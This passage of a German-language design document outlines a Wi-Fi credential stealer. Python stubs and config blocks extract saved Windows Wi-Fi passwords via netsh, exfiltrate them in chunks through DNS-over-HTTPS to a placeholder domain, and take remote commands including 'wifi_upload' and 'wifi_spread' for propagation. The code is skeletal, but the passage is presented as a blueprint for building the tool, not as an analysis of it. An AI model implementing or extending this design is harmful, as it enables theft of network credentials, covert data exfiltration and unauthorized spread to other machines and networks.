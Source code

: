 #### 2.1.2 Credential-Management
```python
def get_wifi_profiles(self):
    """Extrahiert WLAN-Profile aus Windows
    Implementation: netsh wlan show profiles
    Returns: List[Dict] - Profile mit Credentials
    """
    # Extrahierte Daten pro Profil:
    profile_data = {
        'ssid': str,           # Netzwerkname
        'password': str,       # Klartext-Passwort
        'authentication': str, # Auth-Typ
        'encryption': str,     # Verschlüsselung
        'hostname': str,       # Computername
        'timestamp': str       # ISO-Zeitstempel
    }
```

#### 2.1.3 Verbindungsmanagement
```python
def connect_to_network(self, ssid, password):
    """Verbindet mit WLAN-Netzwerk
    Args:
        ssid (str): Netzwerkname
        password (str): Passwort
    Returns:
        bool: Verbindungsstatus
    """
    # Prozess:
    # 1. XML-Profil erstellen
    # 2. Profil temporär speichern
    # 3. Profil installieren
    # 4. Verbindung aufbauen
    # 5. Cleanup durchführen
```

### 2.2 DNS-over-HTTPS Client (DoHClient)

#### 2.2.1 Grundkonfiguration
```python
DOH_CONFIG = {
    'provider': 'https://cloudflare-dns.com/dns-query',
    'domain': 'example.com',
    'chunk_size': 63,  # Max. DNS-Label-Länge
    'retry_interval': 30,
    'timeout': 10
}
```

#### 2.2.2 Befehlsverarbeitung
```python
COMMAND_CONFIG = {
    'allowed_commands': [
        'wifi_upload',   # Credentials hochladen
        'wifi_get',      # Netzwerke abrufen
        'wifi_spread',   # Verbreitung starten
        'wifi_scan'      # Netzwerk-Scan
    ],
    'blocked_commands': [
        'format',
        'del',
        'rmdir',
        'shutdown'
    ]
```
